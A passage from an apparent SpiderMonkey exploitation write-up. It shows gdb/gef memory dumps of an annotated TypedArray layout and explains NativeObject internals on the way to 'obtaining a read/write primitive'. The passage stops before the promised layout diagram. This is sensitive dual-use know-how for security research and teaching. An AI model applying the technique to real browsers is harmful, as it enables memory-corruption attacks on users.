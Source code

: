 ```
15 58dcd46a160
16 50
17 fffe3ee4bd6007e0
18 fff8800000000000
19 4242424242424242
```

## Obtaining a read/write primitive

So what are these values? Let’s have a look in gdb at "A" first (which is a TypedArray):

```
gdb -p $(pidof js)

gef➤  grep 0x4141414141414141
[+] Searching '\x41\x41\x41\x41\x41\x41\x41\x41' in memory
[+] In (0x58dcd400000-0x58dcd500000), permission=rw-
  0x58dcd469038 - 0x58dcd469040  →   "AAAAAAAA"
  0x58dcd46a0c8 - 0x58dcd46a0d0  →   "AAAAAAAA"
[+] In (0x3ee4bd600000-0x3ee4bd700000), permission=rw-
  0x3ee4bd600848 - 0x3ee4bd600868  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7f4343996000-0x7f43439ee000), permission=r--
  0x7f43439bc440 - 0x7f43439bc460  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
  0x7f43439bc448 - 0x7f43439bc468  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
  0x7f43439bc450 - 0x7f43439bc470  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"
  0x7f43439bc458 - 0x7f43439bc478  →   "\x41\x41\x41\x41\x41\x41\x41\x41[...]"


gef➤  x/40xg 0x58dcd46a0c8-0x40
0x58dcd46a088:    0x0000000000000000                  0x0000058dcd466700 (*shape)
0x58dcd46a098:    0x00005618d8518088 (*slots)         0x00005618d8517828 (*elementsHdr)
0x58dcd46a0a8:    0x0000058dcd46a0c8 (*elementsData)  0x00000000000003e8 (byteLength)
0x58dcd46a0b8:    0xfffe3ee4bd6007a0 (*typedArray)    0xfff8800000000000 (offset)
0x58dcd46a0c8:    0x4141414141414141 (data start)     0x0000000000000000 
0x58dcd46a0d8:    0x0000000000000000                  0x0000000000000000  
0x58dcd46a0e8:    0x0000000000000000                  0x0000000000000000  
0x58dcd46a0f8:    0x0000000000000000                  0x0000000000000000  
0x58dcd46a108:    0x0000000000000000                  0x0000000000000000 (data end)
0x58dcd46a118:    0xfffe4d4d4d4d4d4d                  0xfffe4d4d4d4d4d4d
0x58dcd46a128:    0x0000058dcd466700                  0x00005618d8518088
0x58dcd46a138:    0x00005618d8517828                  0x0000058dcd46a160 
0x58dcd46a148:    0x0000000000000050                  0xfffe3ee4bd6007e0
0x58dcd46a158:    0xfff8800000000000                  0x4242424242424242 
...
```

We can relatively easily find the same values in gdb by grepping for `0x4141414141414141` which we placed as the first value in the "A" array. To understand what these values are, we have to look at how these objects work internally. I annotated the first object in the debug view above to show what some of these values are representing.

The structure we see here is based on a NativeObject which most JavaScript objects inherit from (in the source it does not look exactly like this but it helps in understanding the layout (<https://searchfox.org/mozilla-central/source/js/src/vm/NativeObject.h#547>). I tried to illustrate the memory layout below (some of the names I made up):
